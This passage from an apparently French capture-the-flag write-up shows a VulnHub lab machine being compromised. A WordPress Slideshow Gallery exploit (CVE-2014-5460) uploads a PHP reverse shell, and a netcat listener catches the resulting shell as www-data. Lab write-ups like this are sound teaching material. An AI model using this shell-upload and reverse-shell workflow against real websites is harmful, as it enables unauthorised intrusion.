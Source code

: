 ```console
 $$$$$$\            $$\ $$\                                       $$\ $$\   $$\     $$$$$$            $$  __$$\           $$ |$$ |                                    $$$$ |$$ |  $$ |   $$  __$$            $$ /  \__| $$$$$$\  $$ |$$ | $$$$$$\   $$$$$$\  $$\   $$\       \_$$ |$$ |  $$ |   $$ /  \__|
$$ |$$$$\  \____$$\ $$ |$$ |$$  __$$\ $$  __$$\ $$ |  $$ |        $$ |$$$$$$$$ |   $$$$$$$            $$ |\_$$ | $$$$$$$ |$$ |$$ |$$$$$$$$ |$$ |  \__|$$ |  $$ |        $$ |\_____$$ |   $$  __$$            $$ |  $$ |$$  __$$ |$$ |$$ |$$   ____|$$ |      $$ |  $$ |        $$ |      $$ |   $$ /  $$ |
\$$$$$$  |\$$$$$$$ |$$ |$$ |\$$$$$$$\ $$ |      \$$$$$$$ |      $$$$$$\ $$\ $$ |$$\ $$$$$$  |
 \______/  \_______|\__|\__| \_______|\__|       \____$$ |      \______|\__|\__|\__|\______/
$$\   $$ |
\$$$$$$  |
 \______/

   W0rdpr3ss Sl1d3sh04w G4ll3ry 1.4.6 Sh3ll Upl04d Vuln.

  =============================================
  - Release date: 2014-08-28
  - Discovered by: Jesus Ramirez Pichardo
  - CVE: 2014-5460
  =============================================

  Written by:

Claudio Viviani

 <http://www.homelab.it>

[info@homelab.it](mailto:info@homelab.it)
 [homelabit@protonmail.ch](mailto:homelabit@protonmail.ch)

<https://www.facebook.com/homelabit>
<https://twitter.com/homelabit>
<https://plus.google.com/+HomelabIt1/>
  <https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww>

[+] Username & password ACCEPTED!

[!] Shell Uploaded!
[+] Check url: <http://derpnstink.local/weblog//wp-content/uploads/slideshow-gallery/./php-reverse-shell.php> (lowercase!!!!)
```

####On apelle la page web !
<http://derpnstink.local/weblog//wp-content/uploads/slideshow-gallery/./php-reverse-shell.php>

####Et bim un shell :
```console
root@DebSec:~/Documents/Challenge/VulnHub/DeRPnStiNK# nc -lvp 5678
listening on [any] 5678 ...
connect to [10.0.1.28] from derpnstink.local [10.0.1.181] 48514
Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
 13:50:42 up  9:01,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
